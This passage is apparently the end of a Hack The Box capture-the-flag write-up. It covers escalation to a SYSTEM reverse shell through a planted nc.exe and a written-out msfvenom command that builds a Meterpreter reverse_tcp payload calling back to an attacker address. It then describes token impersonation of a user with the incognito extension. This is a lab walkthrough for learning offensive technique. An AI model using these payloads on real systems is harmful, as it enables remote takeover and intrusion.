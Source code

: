 
{% include image.html image_alt="ab7efd0f.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/ab7efd0f.png" %}


Holy cow. I can change it to run a reverse shell as SYSTEM!


{% include image.html image_alt="248f1963.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/248f1963.png" %}


I should mention that I had previously written `nc.exe` to `C:\inetpub\wwwroot\re` with EvilWinRar in case you are wondering how can I run a reverse shell back.


{% include image.html image_alt="ea454d38.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/ea454d38.png" %}


With a `SYSTEM` shell, getting `root.txt` should be a breeze.


{% include image.html image_alt="1e227a1a.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/1e227a1a.png" %}


Not so fast. I need to impersonate `coby`. As `SYSTEM`, you can be anyone you want on the machine with ease using Meterpreter and the incognito extension. First, I generate Meterpreter with `msfvenom`.

```
# msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=10.10.15.203 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 650 bytes
Final size of exe file: 7168 bytes
Saved as: met.exe
```

Next, stand by Metasploit's multi-handler and wait for Meterpreter.


{% include image.html image_alt="9ca90bf1.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/9ca90bf1.png" %}


Launch a shell as `coby` and read that `root.txt`.


{% include image.html image_alt="dd400773.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/dd400773.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/198
[2]: https://www.hackthebox.eu/home/users/profile/4935
[3]: https://www.hackthebox.eu/
